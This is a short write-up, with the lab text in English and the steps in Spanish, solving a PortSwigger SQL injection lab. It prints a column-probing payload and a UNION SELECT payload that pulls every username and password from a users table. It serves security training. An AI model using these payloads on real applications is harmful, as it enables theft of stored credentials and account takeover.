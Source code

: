 # 4 - UNION attack, retrieving multiple values in a single column

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

* Determinamos el numero de columnas que responden text data. Son dos obtenidas con `'+UNION+SELECT+NULL,'abc'--`
* Luego hacemos el siguiente payload : 

```text
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

![](../../../.gitbook/assets/imagen%20%28651%29.png)


